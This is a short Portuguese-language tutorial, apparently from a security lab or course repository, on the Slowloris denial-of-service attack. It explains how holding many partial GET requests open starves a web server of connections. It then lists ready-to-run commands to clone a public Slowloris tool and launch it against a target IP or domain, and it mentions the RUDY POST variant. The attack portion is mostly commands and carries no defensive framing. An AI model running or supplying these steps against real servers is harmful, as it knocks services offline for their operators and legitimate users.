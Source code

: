 # Slow Loris

![](https://www.cloudflare.com/img/learning/ddos/ddos-slowloris-attack/slowloris-attack-diagram.png)

A ideia por trás do Slow Loris é abrir várias conexões TCP com um servidor web e, em cada uma delas, enviar de tempos em tempos uma parte de uma requisição GET. O servidor acha que as conexões estão lentas, mas que são legítimas, então ele as mantêm, impedindo outras conexões de usuários comuns.

Para esse ataque, vamos usar [esse código maravilindo](https://github.com/gkbrk/slowloris). Primeiro clonamos o repositório:

```
$ git clone https://github.com/gkbrk/slowloris
```


Depois entramos no repositório clonado:

```
$ cd slowloris
```
**Obs:** É possível que você precise especificar um caminho diferente ao `cd`, dependendo da pasta para onde o repositório foi clonado e da pasta onde você está.


Finalmente, basta usar o python para executar o código, passando o IP do alvo (nesse caso, nosso alvo é `10.10.10.10`):

```
$ python3 slowloris.py 10.10.10.10
```

Ou apenas o domínio, caso exista:

```
$ python3 slowloris.py example.com
```

**Obs:** Existe uma outra versão do Slow Loris que se chama R U Dead Yet, que envia requisições POST ao invés de GET.
